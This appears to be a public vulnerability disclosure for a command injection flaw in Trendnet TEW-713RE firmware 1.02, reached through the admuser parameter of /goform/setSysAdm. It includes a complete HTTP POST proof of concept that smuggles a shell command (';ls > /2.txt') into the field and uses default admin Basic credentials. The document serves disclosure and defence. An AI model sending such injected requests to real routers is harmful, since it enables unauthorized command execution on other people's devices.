

# Trendnet TEW-713RE setSysAdm
### Overview
vendor: Trendnet

product: TEW-713RE

version: 1.02

type: Command Injection
### Vulnerability Description
A vulnerability has been found in Trendnet TEW-713RE 1.02. This vulnerability can be triggered through the route /goform/setSysAdm. The manipulation of the argument admuser leads to  command injection. The attack is possible to be carried out remotely. The exploit has been disclosed to the public and may be used.
### Vulnerability details
The `sub_43BED0` function retrieves the `admuser`  parameter from the user request. The parameter is passed to the `doSystem` function without any check, which may cause command injection.



### POC
```
POST /goform/setSysAdm HTTP/1.1
Host: 192.168.10.100
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 33
Origin: http://192.168.10.100
Authorization: Basic YWRtaW46YWRtaW4=
Connection: keep-alive
Referer: http://192.168.10.100/internet/ipv6.asp
Cookie: expandable=0c
Upgrade-Insecure-Requests: 1
Priority: u=4

admuser=;ls > /2.txt&admpass=aaaa
```